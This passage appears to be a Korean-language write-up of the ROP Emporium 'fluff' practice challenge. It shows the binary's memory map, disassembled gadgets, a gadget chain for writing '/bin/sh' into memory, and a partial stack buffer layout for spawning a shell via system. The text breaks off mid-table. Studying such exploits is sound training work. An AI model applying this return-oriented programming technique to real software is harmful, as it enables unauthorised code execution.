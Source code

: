 ```
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /home/junheah/ropemp/fluff/fluff
0x00600000         0x00601000         r--p      /home/junheah/ropemp/fluff/fluff
0x00601000         0x00602000         rw-p      /home/junheah/ropemp/fluff/fluff
```
mov를 사용해서 0x601000에다 "/bin/sh"를 저장한 뒤, system 함수로 쉘을 열면 될 것 같다.

```nasm
Dump of assembler code for function questionableGadgets:
   ...
a : <r11 = 0>
   0x0000000000400822 <+2>:     xor    r11,r11
   0x0000000000400825 <+5>:     pop    r14
   0x0000000000400827 <+7>:     mov    edi,0x601050
   0x000000000040082c <+12>:    ret
   ...
b : <r11 ^= r12>
   0x000000000040082f <+15>:    xor    r11,r12
   0x0000000000400832 <+18>:    pop    r12
   0x0000000000400834 <+20>:    mov    r13d,0x604060
   0x000000000040083a <+26>:    ret
   ...
c : <r10 = r11>
   0x0000000000400840 <+32>:    xchg   r11,r10
   0x0000000000400843 <+35>:    pop    r15
   0x0000000000400845 <+37>:    mov    r11d,0x602050
   0x000000000040084b <+43>:    ret
   ...
d : <[r10] = r11>
   0x000000000040084e <+46>:    mov    QWORD PTR [r10],r11
   0x0000000000400851 <+49>:    pop    r13
   0x0000000000400853 <+51>:    pop    r12
   0x0000000000400855 <+53>:    xor    BYTE PTR [r10],r12b
   0x0000000000400858 <+56>:    ret
   ...
End of assembler dump.
```
questionableGadgets의 가젯들을 사용해 보자. pwnme에서 ret 할때의 r12 값만 알면 쉽게 할수 있을 것 같다.

``pwnme 함수 에필로그에서 r12의 값 : 0x400650``

순서:
1. a: r11 = 0
2. b: r11 = 0x400650 / r12 = 0x201650
3. b: r11 = 0x601000 / r12 = '/bin/sh'
4. c: r10 = 0x601000 / r11 = ?
5. a: r11 = 0
6. b: r11 = '/bin/sh' / r12 = 0
7. d: write

버퍼 구조:
<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret for pwnme : a</td></tr>
    <tr><td>param[0] : 0</td></tr>
    <tr><td>ret for a : b</td></tr>
    <tr><td>param[0] : 0x201650</td></tr>
    <tr><td>ret for b : b</td></tr>
    <tr><td>param[0] : '/bin/sh'</td></tr>
    <tr><td>ret for b : c</td></tr>
    <tr><td>param[0] : 0</td></tr>
    <tr><td>ret for c : a</td></tr>
    <tr><td>param[0] : 0</td></tr>
    <tr><td>ret for a : b</td></tr>
    <tr><td>param[0] : 0</td></tr>